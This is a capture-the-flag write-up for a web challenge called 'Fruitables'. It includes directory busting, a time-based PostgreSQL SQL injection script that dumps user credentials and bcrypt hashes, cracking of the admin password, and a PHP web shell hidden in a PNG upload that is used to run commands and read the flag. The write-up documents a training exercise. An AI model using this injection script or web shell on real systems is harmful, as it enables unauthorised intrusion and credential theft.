





# Fruitables [77 Solves]

## Description

> A website about fruit? Probably no vulnerabilities there.. Move along everybody!
>
> `https://ctfd-status.ctf.intigriti.io/fruitables`

No attachment.

## Flag

INTIGRITI{fru174bl35_vuln3r4b1l17y_ch3ckm8}

## Solution


```console
$ echo https://fruitables-3.ctf.intigriti.io/ | hakrawler | sort -u
https://ajax.googleapis.com/ajax/libs/jquery/3.6.4/jquery.min.js
https://cdn.jsdelivr.net/npm/bootstrap@5.0.0/dist/js/bootstrap.bundle.min.js
https://fruitables-3.ctf.intigriti.io/assets/js/main.js
https://fruitables-3.ctf.intigriti.io/checkout.php
https://fruitables-3.ctf.intigriti.io/contact.php
https://fruitables-3.ctf.intigriti.io/index.php
https://fruitables-3.ctf.intigriti.io/lib/easing/easing.min.js
https://fruitables-3.ctf.intigriti.io/lib/lightbox/js/lightbox.min.js
https://fruitables-3.ctf.intigriti.io/lib/owlcarousel/owl.carousel.min.js
https://fruitables-3.ctf.intigriti.io/lib/waypoints/waypoints.min.js
https://fruitables-3.ctf.intigriti.io/shop-detail.php
https://fruitables-3.ctf.intigriti.io/shop.php
https://htmlcodex.com/contact-form
```

It seems that PHP pages linked from index.php are not vulnerable.
By Directory Busting, account.php is found.

```console
$ ffuf -ic -u https://fruitables-3.ctf.intigriti.io/FUZZ.php -w /usr/share/seclists/Discovery/Web-Content/common.txt -mc all -fs 196
(snip)
.hta                    [Status: 403, Size: 199, Words: 14, Lines: 8, Duration: 306ms]
.htaccess               [Status: 403, Size: 199, Words: 14, Lines: 8, Duration: 312ms]
.htpasswd               [Status: 403, Size: 199, Words: 14, Lines: 8, Duration: 336ms]
404                     [Status: 200, Size: 5734, Words: 1377, Lines: 103, Duration: 335ms]
account                 [Status: 200, Size: 7305, Words: 2225, Lines: 134, Duration: 309ms]
cart                    [Status: 200, Size: 14644, Words: 6634, Lines: 253, Duration: 307ms]
checkout                [Status: 200, Size: 18654, Words: 8389, Lines: 294, Duration: 297ms]
contact                 [Status: 200, Size: 8850, Words: 2976, Lines: 157, Duration: 374ms]
index                   [Status: 200, Size: 78961, Words: 38387, Lines: 1086, Duration: 307ms]
shop                    [Status: 200, Size: 33335, Words: 16826, Lines: 437, Duration: 401ms]
testimonial             [Status: 200, Size: 10819, Words: 3850, Lines: 180, Duration: 299ms]
:: Progress: [4734/4734] :: Job [1/1] :: 117 req/sec :: Duration: [0:00:42] :: Errors: 0 ::
```


Tried registration, a requests to POST `/auth/fruitables_register.php` is sent.
Then, it redirects to `/auth/fruitables_login.php?error=Sorry%2C+registration+is+currently+closed%21` URL path.



A single quote `'` is set to username field, it show SQL error.
It seems to have SQL Injection vulnerability.



It has PostgreSQL server because `'+OR+current_database()=current_database();-` payload is working.



PostgreSQL SQL Injection Time-Based payload for data exfiltration is the following:

```text
' OR cast(chr(65)||(select case when (select ascii(substr(1,1,1)) from users limit 1 offset 0)>40 then pg_sleep(3) else pg_sleep(0) end) as boolean);--
```

Implemented to automate:

<details><summary>sqli.py</summary>

```python
import time
import requests

requests.packages.urllib3.disable_warnings()
s = requests.Session()
# s.proxies = {"https": "http://127.0.0.1:8080"}
s.verify = False

BASE_URL = "https://fruitables-3.ctf.intigriti.io"
THRETHOLD_SEC = 2


def sqli(payload):
    t1 = time.time()
    res = s.post(
        f"{BASE_URL}/auth/fruitables_login.php",
        data={"username": payload, "password": ""},
    )
    t2 = time.time()

    return t2 - t1 > THRETHOLD_SEC


def binary_search_leftmost(l, r, payload_with_m):
    while l < r:
        m = (l + r) // 2
        print(f"{m}    ", end="\r", flush=True)
        if sqli(payload_with_m.format(m=m)):
            l = m + 1
        else:
            r = m

    # print()
    return l


def main():
    columns = ["username", "password"]

    # record size
    record_size = binary_search_leftmost(
        1,
        100,
        f"' OR cast(chr(65)||(select case when (select count(*) from users)>{{m}} then pg_sleep({THRETHOLD_SEC}) else pg_sleep(0) end) as boolean);--",
    )
    print(f"{record_size=}")

    for record_i in range(record_size):
        for column in columns:

            char_length = binary_search_leftmost(
                0,
                500,
                f"' OR cast(chr(65)||(select case when (select char_length({column}) from users limit 1 offset {record_i})>{{m}} then pg_sleep({THRETHOLD_SEC}) else pg_sleep(0) end) as boolean);--",
            )
            print(f"{char_length=}")

            loot = ""
            for char_i in range(1, char_length + 1):
                c = binary_search_leftmost(
                    0,
                    255,
                    f"' OR cast(chr(65)||(select case when (select ascii(substr({column},{char_i},1)) from users limit 1 offset {record_i})>{{m}} then pg_sleep({THRETHOLD_SEC}) else pg_sleep(0) end) as boolean);--",
                )

                loot += chr(c)
                print(f"{column}: {loot}")

            print(f"{column}: {loot}")


if __name__ == "__main__":
    main()
```

</details>

<details><summary>Output</summary>

```text
record_size=3
char_length=9
username: c
(snip)
username: cryptocat
char_length=53
password: y
(snip)
password: y0/HlOtAkyWN1KzjKOQlge2uyHYEHEfQV3ynFBTV/nvfM5IS/x6Sq
char_length=10
username: i
(snip)
username: invincible
char_length=54
password: y
(snip)
password: y0/avsmtl2dS2XVcRWT6E5OzrnUg8FU1dg6RvYd/9KTmcO0BctXGxa
char_length=11
username: t
(snip)
username: tjfry_admin
char_length=60
password: $
password: $2
password: $2y
(snip)
password: $2y$10$xeRysgjnBo5gR7xm0UnekOabT./PYjZwkb0x1Qw1m1KzhuLmXlG5S
```

</details>

Found `tjfry_admin:$2y$10$xeRysgjnBo5gR7xm0UnekOabT./PYjZwkb0x1Qw1m1KzhuLmXlG5S` credential.
Crack the hashed password, results in `futurama`.
So login with `tjfry_admin:futurama` credential, it redirects Admin Dashboard.



The page has file upload vulnerability.
Create a polyglot PNG file (e.g. PNG Comment is `<?php system($_GET[0]);>?`) and its filename is foobar.png.php.

```bash
convert -size 1x1 xc:blue tmp.png
exiftool -comment='<?php system($_GET[0]);?>' tmp.png
mv tmp.png{,.php}
```

Upload the file.



Exploit

```console
$ curl -G --data-urlencode 0=id -o- -s https://fruitables-3.ctf.intigriti.io/uploads/a7b9c4c179d3e7c2dfaaf371c6340414.png.php
PNG

IHDR%V cHRMz&u0`:pQ<PLTE{ܙ,bKGD-tIME
                                    0t!tEXtCommentuid=33(www-data) gid=33(www-data) groups=33(www-data)

IDAc`!3IENDB`

$ curl -G --data-urlencode '0=echo; ls -la /' -o- -s https://fruitables-3.ctf.intigriti.io/uploads/a7b9c4c179d3e7c2dfaaf371c6340414.png.php
PNG

IHDR%V cHRMz&u0`:pQ<PLTE{ܙ,bKGD-tIME
                                    0t!tEXtComment
total 8
drwxr-xr-x    1 root root   50 Nov 15 13:42 .
drwxr-xr-x    1 root root   50 Nov 15 13:42 ..
drwxr-xr-x    1 root root   19 Nov 15 13:39 bin
drwxr-xr-x    2 root root    6 Sep 29  2023 boot
drwxr-xr-x    5 root root  360 Nov 15 13:42 dev
drwxr-xr-x    1 root root   19 Nov 15 13:42 etc
-r--r--r--    1 root root   43 Nov 15 13:39 flag_poxm7AQwN77Lj2PU.txt
drwxr-xr-x    2 root root    6 Sep 29  2023 home
drwxr-xr-x    1 root root   45 Nov 21  2023 lib
drwxr-xr-x    2 root root   34 Nov 20  2023 lib64
drwxr-xr-x    2 root root    6 Nov 20  2023 media
drwxr-xr-x    2 root root    6 Nov 20  2023 mnt
drwxr-xr-x    2 root root    6 Nov 20  2023 opt
dr-xr-xr-x 1234 root root    0 Nov 15 13:42 proc
drwx------    1 root root    6 Nov 21  2023 root
drwxr-xr-x    1 root root   58 Nov 15 13:42 run
drwxr-xr-x    1 root root   20 Nov 21  2023 sbin
drwxr-xr-x    2 root root    6 Nov 20  2023 srv
dr-xr-xr-x   13 root root    0 Nov 15 13:42 sys
drwxrwxrwt    1 root root 4096 Nov 17 07:20 tmp
drwxr-xr-x    1 root root   19 Nov 20  2023 usr
drwxr-xr-x    1 root root   79 Nov 21  2023 var

IDAc`!3IENDB`

$ curl -G --data-urlencode '0=echo; cat /flag_poxm7AQwN77Lj2PU.txt' -o- -s https://fruitables-3.ctf.intigriti.io/uploads/a7b9c4c179d3e7c2dfaaf371c6340414.png.php
PNG

IHDR%V cHRMz&u0`:pQ<PLTE{ܙ,bKGD-tIME
                                    0t!tEXtComment
INTIGRITI{fru174bl35_vuln3r4b1l17y_ch3ckm8}
IDAc`!3IENDB` 
```
